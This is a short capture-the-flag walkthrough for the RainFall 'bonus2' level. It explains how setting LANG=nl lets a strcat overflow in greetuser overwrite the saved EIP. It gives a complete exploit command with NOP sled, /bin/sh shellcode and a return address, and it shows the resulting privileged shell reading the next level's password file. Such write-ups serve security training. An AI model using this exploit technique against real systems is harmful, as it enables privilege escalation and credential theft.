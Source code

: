  # Walkthrough bonus2

We have a buffer of 72 in a function `greetuser`.  
So we can write 72 chars in our buffer. 40 in argv[1] and 32 in argv[2].   
But an another string is concatenate with our buffer. Depends of one environment variable named `LANG`.   

"Hello " + 70 * "a" --> saved EIP 
First without changed our env variable we can write 2 bytes in saved EIP.

So we need to have a bigger string to override all `saved EIP`.   
We can change `Lang` to "nl" because the string length is bigger.
"Goedemiddag! " + 63 * "a" --> saved EIP 

We have 63 chars for the shellcode. The 4 chars after are to replace `saved EIP` by address of the nop sled.  


``` bash
bonus2@RainFall:~$ export LANG=nl ; ./bonus2 $(python -c 'print("\x90" * 12 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")') $(python -c 'print("a" * 23) + "\xec\xf8\xff\xbf"')
Goedemiddag! ������������1�Ph//shh/bin����°
                                           1�@̀aaaaaaaaaaaaaaaaaaaaaaa����
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
